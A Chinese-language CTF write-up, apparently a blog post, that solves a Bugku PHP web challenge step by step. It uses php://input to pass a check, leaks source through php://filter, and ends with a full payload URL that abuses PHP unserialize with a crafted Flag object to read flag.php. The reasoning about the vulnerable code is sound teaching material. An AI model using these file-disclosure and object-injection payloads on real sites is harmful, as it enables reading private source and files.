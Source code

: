 ```yaml
---
title: 【Bugku CTF】 Web —— welcome to bugkuctf
copyright: true
date: 2018-01-03 22:40:23
tags: [Bugku,CTF,Writeup,Web,Audit,PHP]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题运用了许多 PHP 技巧，解题思路惊艳，特此想分享一下思考过程。与其说此题是 Web 题，不如说是道 PHP 技巧题，难度中等，要求有**扎实的 PHP 基础**。

涉及到的技巧有 **PHP 伪协议、魔术方法、对象的序列化与反序列化**等，相关链接如下：

- 题目链接：[http://123.206.31.85/challenges#welcome to bugkuctf](http://123.206.31.85/challenges#welcome%20to%20bugkuctf)
- 解题链接：[http://120.24.86.145:8006/test1/](http://120.24.86.145:8006/test1/)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/bugku-ctf-web-welcome-to-bugkuctf/question.png)

# 0x01 PHP 伪协议获取源码

点开链接，依然按常规套路只有一句话：**you are not the number of bugku !**，继续查看源码发现线索：

![hint](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/bugku-ctf-web-welcome-to-bugkuctf/hint.png)

这里需要满足两点：

1. 构造合适的 URL 查询变量 `txt` 使得 PHP 变量 `$user` 满足 if 语句的条件
2. 令变量 `$file` 通过文件包含函数 `include()` 获取指定页面的源码

注意，此处还未涉及到查询变量 `password`。

## php://input

在 if 语句中，通过 `file_get_contents()` 函数读取变量 `$user` 的值后，再与字符串 `welcome to the bugkuctf` 比较。

因此可借助伪协议 [php://](http://php.net/manual/zh/wrappers.php.php) 中的 `php://input` 访问原始请求数据中的只读流。这里令 `$user = "php://input"`，并在请求主体中提交字符串 `welcome to the bugkuctf`。

## php://filter

在 `include($file); //hint.php` 语句中，相当于把变量 `$file` 的值在该语句的位置读入，结合后面的提示，应该是要把 hint.php 页面的源码以某种形式包含在当前页面内。

因此可利用 `php://filter` 以某种方式筛选过滤特定的数据流。这里令 `$file = php://filter/read=convert.base64-encode/resource=hint.php`，意思是**以 Base64 编码的方式过滤出 hint.php 页面的源码**，也可以把它理解为一个具有 URI 形式的特殊函数，该函数能把 hint.php 源码以 Base64 编码的方式读入。

根据以上两种 PHP 伪协议的分析，构造出以下 payload 即得 hint.php 源码的 Base64 编码:

![get-source](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/bugku-ctf-web-welcome-to-bugkuctf/get-source.png)

解码后得到 hint.php 源码：

``` php
<?php  
  
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?>  
```

根据注释发现了藏 flag 的页面，再次照葫芦画瓢去偷看 flag.php 源码：

![flag-fail](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/bugku-ctf-web-welcome-to-bugkuctf/flag-fail.png)

...果然没那么简单，唔，卡住了，怎么办？

别忘了还有主页面啊！**利用主页面的功能也能读取自身的源码**，这一点很容易被遗忘，所以这次很顺利就获得了 index.php 的源码（注意，路径末尾不带 php 文件的 URL `http://120.24.86.145:8006/test1/`，一般默认就是访问 `http://120.24.86.145:8006/test1/index.php`）：

``` php
<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
  
if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "不能现在就给你flag哦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  
  
?>  
  
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 -->  
```

注意到第 8 行将 `$file` 变量中的 `flag` 字符串过滤了，印证了前面的结果。到此，我们顺利地将此题变成一道 PHP 白盒审计题了，现在才是此题最有意思的地方，如何利用已知的 hint.php 与 index.php 的源码去获取 flag.php 的内容？请继续往下看。

# 0x02 序列化构造 payload

要理清 hint.php 与 index.php 之间的关系，首先要理解 hint.php 中的 `__tostring()` 函数是何方神圣。

## 魔术方法 __toString()

「写在前面」：PHP 中变量与方法的命名一般遵循**小驼峰式命名法（Lower Camel Case）**，类的命名一般遵循**大驼峰式命名法（Upper Camel Case）**，也称**帕斯卡命名法（Pascal Case）**，并且**普通变量、超级全局变量、常量、数组索引等区分大小写**，而**函数名、方法名、类名、魔术变量等不区分大小写**，但最好使用与定义一样的大小写名字。详情可参考：

> [驼峰式大小写](https://zh.wikipedia.org/wiki/%E9%A7%9D%E5%B3%B0%E5%BC%8F%E5%A4%A7%E5%B0%8F%E5%AF%AB)
> [PHP命名大小写敏感规则](https://www.cnblogs.com/daipianpian/p/5721377.html)

因此看到此魔术方法定义为 `__toString()`，在源码中却是 `__tostring()` 就不足为奇了。

**魔术方法 [__toString()](http://php.net/manual/zh/language.oop5.magic.php#object.tostring)** 定义在类中，在该类的对象被当成字符串打印时执行，并且必须返回一个字符串，否则出现报错。

因此在 hint.php 中，当 `Flag` 类的对象被打印时，将获取 `$file` 变量（注意此处的 `$file` 与 index.php 中的不同）中文件的内容并输出，最后返回字符串 `good`。

## 对象的序列化

再来看看 index.php 的 11-15 行，满足了上面所有 if 语句的条件后，先包含变量 `$file`，再反序列化变量 `$password` 后输出。此段代码是本题的核心，理解了就能找到 index.php 与 hint.php 之间的联系，从而构造出 payload。

**核心思想如下：先用 `include()` 函数包含 hint.php，从而引入 `Flag` 类；再将该类对象的序列化字符串赋值给 `$passsword`，且令对象的成员变量 `$file = flag.php`， 所以在反序列化后得到上述对象；最后用 `echo` 打印该对象，从而触发 `__toString()` 函数，输出 flag.php 的值。**

通过以下代码可获得成员变量 `$file = flag.php` 的 `Flag` 对象的序列化字符串：`O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} `

``` php
<?php 
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("good");
        }  
    }  
}  
$f = new Flag();
$f->file = 'flag.php';
echo serialize($f);
?> 
```

根据以上所有的分析，可以将 payload 总结如下：

**`http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`**

最后别忘了在请求主体中提交字符串 `welcome to the bugkuctf` 喔，提交后得到 flag：

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/bugku-ctf-web-welcome-to-bugkuctf/flag.png)

若有不足或错误之处劳烦指出，欢迎有疑问的朋友前来留言讨论。